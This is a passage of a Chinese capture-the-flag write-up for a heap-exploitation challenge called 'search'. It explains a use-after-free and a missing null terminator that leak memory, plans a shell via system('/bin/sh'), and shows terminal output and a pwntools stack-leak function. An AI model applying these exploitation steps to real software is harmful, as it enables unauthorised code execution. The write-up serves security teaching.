 	先分配一块内存作为输入的缓冲区，再用 memcpy() 判断是否有匹配的内存，如果查找到让用户选择是否释放该内存，最后释放掉输入缓冲内存。

- Index

	malloc 自定义大小的 chunk，输入字符串，以空格符为间隔分割成不同的单词，每个单词用一块 0x30 字节的 chunk 存储索引，chunk 的尾部存储上一个索引，删除操作只释放掉存储字符串的 chunk，存储字符串索引的 chunk 并不被释放，可以利用这个漏洞泄露内存。

还有一个值得注意的地方，程序的 0x400a40 (read_num) 函数，如果输入的字符串长度为48个字符的话，字符串的尾部不会加上 null，而在内存中字符串是以 null为结束符的，那么当该字符串被打印时，内存中与字符串相邻的内容直到遇到 null 结束符为止也会被打印出来，这可以用来泄露 stack 指针。

现在程序的逻辑已经了解清楚，一般我们的目标是调用 system('/bin/sh')，这需要泄露 libc 地址。要执行 system 需要知道返回地址，总的来说我们的利用方法分为以下步骤：

1. 泄露 stack - 获得返回地址
2. 泄露 libc - 获得 system 地址
3. 改写返回地址调用 system('/bin/sh')

# Leak Stack

尝试输入 48 个字符，看它会打印什么

```
$ ./search 
1: Search with a word
2: Index a sentence
3: Quit
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA is not a valid number
```

程序并没有终止，当再次输入时，打印出了一个指针
```
$ ./search 
1: Search with a word
2: Index a sentence
3: Quit
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA is not a valid number
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA �6
� is not a valid number
```

其实输入的同时在 gdb 中查看栈会发现第一次读取的字符串后面的内存总是空的，第二次读取的字符与之相邻的是指向上一个读取的字符串的指针，那么 leak stack 的脚本可以写成：

```
def leak_stack():
    p.recvuntil("3: Quit\n")
    p.sendline("A"*48)
    p.recvline()
    p.sendline("A"*48)
    leak = p.recvline().split(" ")[0][48:]

    if leak != "":
    	return u64(leak.ljust(8, "\x00"))
    else:
    	log.info("leak_stack: fail!")
    	p.sendline("3")
    	exit()
```
